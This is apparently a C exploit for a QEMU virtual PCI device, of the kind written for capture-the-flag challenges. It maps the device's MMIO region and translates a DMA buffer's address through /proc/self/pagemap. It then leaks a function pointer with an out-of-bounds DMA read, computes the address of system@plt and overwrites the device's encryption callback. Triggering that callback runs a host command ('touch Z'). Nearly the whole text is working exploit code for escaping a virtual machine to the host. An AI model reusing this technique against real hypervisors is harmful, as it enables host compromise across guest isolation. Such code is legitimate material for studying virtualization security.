 ```c
    // I don't know why needs to *8
    uint64_t offset = (virt / 0x1000) * 8;
    lseek(fd, offset, SEEK_SET);
    
    uint64_t phys;
    read(fd, &phys, 8);
    if (!(phys & PFN_PRESENT))
        pexit("[-] read /proc/self/pagemap failed");
    
    phys &= (1 << 54) - 1;
    phys <<= 12; // * 0x1000
    return phys;
}

void hexdump(uint64_t *ptr, size_t cnt)
{
    puts("------ [hexdump] ------");
    for (int i = 0; i < cnt; i++)
     	printf("[*] %02x - 0x%016" PRIx64 "\n", i, *(ptr + i));
}

int main()
{
    int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (fd == -1)
        pexit("[-] open resource0 failed");
    
    // device memory mapping
    mmio_mem = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
    if (mmio_mem == MAP_FAILED)
        pexit("[-] mmap mmio failed");
    
    // create dma buffer and obtain its phys addr
    dmabuf = (unsigned char *) mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (dmabuf == MAP_FAILED)
        pexit("[-] mmap dmabuf failed");
    mlock(dmabuf, 0x1000);
    dmabuf_phys_addr = virt2phys(dmabuf);
    printf("[+] dma_phys:\t0x%016" PRIx64 "\n", dmabuf_phys_addr);
    
    // 0x1000 == &opaque->enc - &opaque->dma_buf
    dma_read(DMA_BASE + 0x1000, 8);
    hexdump((uint64_t *) dmabuf, 0x10);
    uint64_t enc_addr = *((uint64_t *) dmabuf);
    uint64_t code = enc_addr - 0x283dd0;
    uint64_t system_plt = code + 0x1fdb18;
	printf("[+] enc_addr:\t0x%016" PRIx64 "\n", enc_addr);
	printf("[+] code:\t0x%016" PRIx64 "\n", code);
    printf("[+] system_plt:\t0x%016" PRIx64 "\n", system_plt);
   
    dma_write(DMA_BASE + 0x1000, &system_plt, 8);

    char *cmd = "touch Z";
    dma_write(DMA_BASE + 0x100, cmd, strlen(cmd));
    dma_enc(DMA_BASE + 0x100, 0x8);
    
    return 0;   
}
```

